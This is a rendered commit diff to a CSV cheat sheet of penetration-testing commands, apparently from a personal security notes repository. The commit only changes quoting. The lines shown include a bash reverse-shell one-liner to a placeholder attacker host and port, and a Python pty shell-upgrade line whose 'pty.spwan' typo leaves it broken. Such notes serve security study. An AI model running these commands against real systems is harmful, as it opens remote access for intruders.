

Before and after one commit to HarshitKhurana/InfoSec, a CSV file: SimpleTools|Commands.csv, drawn as a sheet.

Commit message:
single quote for csv beautifying-3

```diff
--- a/SimpleTools|Commands.csv
+++ b/SimpleTools|Commands.csv
@@ -12,2 +12,2 @@ gdb->list funcitons,:, To list all functions used in a binary
 bash -c 'bash -i </dev/tcp/AttackerIp/AttackerPort 2>&1 >&0' ,:,  Reverse shell on attacker machine using bash
-python3 -c 'import pty;pty.spwan(\'/bin/bash\')' ,:, Gives a shell/terminal with some pre-built features, tab completion etc
+python3 -c 'import pty;pty.spwan("/bin/bash")' ,:, Gives a shell/terminal with some pre-built features like tab completion etc
```
